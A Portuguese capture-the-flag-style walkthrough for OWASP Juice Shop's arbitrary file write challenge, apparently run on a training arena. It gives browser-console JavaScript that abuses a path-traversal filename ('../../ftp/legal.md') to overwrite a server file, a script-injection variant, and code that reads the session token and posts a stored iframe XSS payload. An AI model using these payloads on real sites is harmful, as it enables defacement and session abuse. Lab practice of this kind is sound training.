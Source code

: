Esse desafio **"Arbitrary File Write – Overwrite the Legal Information file"** é um dos desafios do **OWASP Juice Shop**.
Ele explora uma vulnerabilidade de **Path Traversal + Arbitrary File Write**, permitindo sobrescrever arquivos do servidor.

---

### 📌 Como funciona o ataque?

No Juice Shop, há um endpoint vulnerável em **`/ftp`** ou em rotas relacionadas a upload.
Se a aplicação não valida corretamente o caminho do arquivo, é possível enviar algo como:

```
../../ftp/legal.md
```

E sobrescrever o arquivo **`legal.md`**, que é exibido na página de **Legal Information**.

---

### 📖 Passos para resolver (em ambiente Juice Shop):

1. **Acesse a funcionalidade de upload**
   Vá até a página de **complaints** ou outra funcionalidade que aceite upload de arquivos.

2. **Intercepte a requisição (Burp/ZAP)**
   No campo do nome do arquivo (ou parâmetro JSON com o caminho), troque por algo como:

   ```
   ../../ftp/legal.md
   ```

3. **Envie um arquivo Markdown personalizado**
   O arquivo deve conter texto (por exemplo `Hacked by ...`) para sobrescrever o conteúdo legal.

4. **Acesse a página Legal Information**
   O conteúdo que você enviou será exibido.

---

### 🔹 OWASP Top 10 relacionado

✅ **A5:2021 – Security Misconfiguration**
✅ **A1:2021 – Broken Access Control**
✅ **A3:2021 – Injection (Path Traversal)**






-------

### 📌 Exemplo em JavaScript (executar no console do navegador)

```js
const formData = new FormData();

// Conteúdo do arquivo que vai sobrescrever legal.md
const conteudo = "# ⚠ Página Alterada\n\nEste arquivo foi sobrescrito via Path Traversal!";
const arquivo = new File([conteudo], "../../ftp/legal.md", { type: "text/markdown" });

// Adiciona o arquivo no FormData
formData.append("file", arquivo);

// Faz a requisição POST para o endpoint de upload
fetch("https://arena.cecyber.com/file-upload", {
  method: "POST",
  body: formData
})
.then(res => res.text())
.then(console.log)
.catch(console.error);
```

---

### 🔹 Como usar

1. Abra o site (`https://arena.cecyber.com`).
2. Aperte `F12` → Aba **Console**.
3. Cole o código acima e pressione **Enter**.
4. Depois, acesse **[https://arena.cecyber.com/ftp/legal.md](https://arena.cecyber.com/ftp/legal.md)** para verificar se o conteúdo foi sobrescrito.

---

🔹 **IMPORTANTE:**
O nome do campo (`file`) e a URL (`/file-upload`) precisam ser iguais aos usados no upload real do site.
Se o site usar outro campo (ex: `complaintFile` ou `image`), é só alterar no `formData.append("file", arquivo)`.


Sim! Se o sistema for vulnerável a **Path Traversal no upload**, dá para alterar o **conteúdo** ou até **substituir o arquivo**.

### ✅ Para **alterar o texto dentro do arquivo**

Você pode criar um novo conteúdo e salvar com o mesmo nome (`../../ftp/legal.md`) para sobrescrever:

```js
const novoConteudo = `
# Novo Legal.md
Este arquivo foi sobrescrito com novo conteúdo!
`;

// Cria um arquivo com o mesmo nome do legal.md, mas usando path traversal
const arquivo = new File([novoConteudo], "../../ftp/legal.md", { type: "text/markdown" });

const formData = new FormData();
formData.append("file", arquivo);

fetch("https://arena.cecyber.com/file-upload", {
  method: "POST",
  body: formData
})
.then(res => res.text())
.then(console.log)
.catch(console.error);
```

---

### ✅ Para **trocar por outro arquivo (ex: imagem ou script)**

Basta alterar o tipo (`type`) e o conteúdo:

```js
const conteudoMalicioso = "<script>alert('Arquivo modificado!')</script>";

const arquivo = new File([conteudoMalicioso], "../../ftp/legal.md", { type: "text/html" });

const formData = new FormData();
formData.append("file", arquivo);

fetch("https://arena.cecyber.com/file-upload", {
  method: "POST",
  body: formData
})
.then(res => res.text())
.then(console.log)
.catch(console.error);
```

---

📌 **O que muda:**
✅ Se o backend não sanitiza o nome do arquivo, o `../../ftp/legal.md` faz **Path Traversal** e sobrescreve o arquivo real.
✅ Se o backend aceita qualquer extensão, você consegue **alterar até o tipo do arquivo**.

⚠️ Isso é exatamente a vulnerabilidade **Arbitrary File Write (OWASP A6: Security Misconfiguration)**.



```js 

function getToken() {
  const cookies = document.cookie.split("; ");
  const tokenCookie = cookies.find(c => c.startsWith("token="));
  if (!tokenCookie) {
    console.error("⚠️ Nenhum token encontrado!");
    return null;
  }
  return tokenCookie.split("=")[1];
}

// 🔹 Uso
let token = getToken();
console.log("🔑 Token atual:", token);


let token = getToken();

if (token) {
  fetch("https://arena.cecyber.com/api/Products", {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
      "Authorization": `Bearer ${token}`
    },
    body: JSON.stringify({
      name: "XSS",
      description: '<iframe src="javascript:alert(`xss`)">',
      price: 47.11,
      deluxePrice: 47.11,
      image: "Base_CompTIA_PenTest.png"
    })
  })
  .then(async res => {
    const text = await res.text();
    try {
      console.log("✅ JSON:", JSON.parse(text));
    } catch {
      console.log("❌ Resposta não é JSON:", text);
    }
  });
}


```